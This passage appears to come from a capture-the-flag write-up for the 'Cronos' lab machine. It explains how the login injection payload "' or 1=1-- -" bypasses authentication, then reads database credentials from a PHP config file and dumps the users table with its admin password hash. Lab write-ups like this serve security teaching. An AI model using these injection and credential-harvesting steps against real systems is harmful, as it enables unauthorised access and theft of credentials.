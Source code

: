Since `AND` has precedence over `OR`, this results in:

```

SELECT id FROM users WHERE username = '' or ('1'='1' and password = 'admin')

```

This fails.

But later when I enter `' or 1=1-- -`, it becomes:

```

SELECT id FROM users WHERE username = '' or 1=1-- -' and password = '$mypassword'

```

That will return all the users from the database.

Next the PHP checks that exactly one row was returned. If I log into the database from Cronos, I can see that the DB only has one user in it. First get the creds in `/var/www/admin/config.php`:

```

<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>

```

Now I can connect and dump the users:

```

root@cronos:/var/www/admin# mysql -u admin -pkEjdbRigfBHUREiNSDs admin 
mysql: [Warning] Using a password on the command line interface can be insecure.
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 47
Server version: 5.7.17-0ubuntu0.16.04.2 (Ubuntu)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)

```
